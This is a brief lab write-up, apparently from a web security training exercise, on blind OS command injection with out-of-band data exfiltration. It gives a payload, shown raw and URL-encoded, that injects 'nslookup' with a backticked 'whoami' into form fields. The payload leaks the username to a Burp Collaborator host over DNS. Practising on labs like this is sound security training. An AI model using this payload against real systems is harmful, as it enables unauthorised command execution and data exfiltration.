


--> This lab is same as Lab-4 but here we have to execute the os command in the DNS lookup which we can do with the backtick so i set up my burp collaborator server and used this payload in every field :

```bash
 & nslookup `whoami`.server.burpcollaborator.net &
#After encoding
+%26+nslookup+`whoami`.hm79ndstkro1octlc11atpw9w02qqf.burpcollaborator.net+%26
```

--> And after using it in `email` field i got the DNS lookup with the username!



--> And we solved the lab!


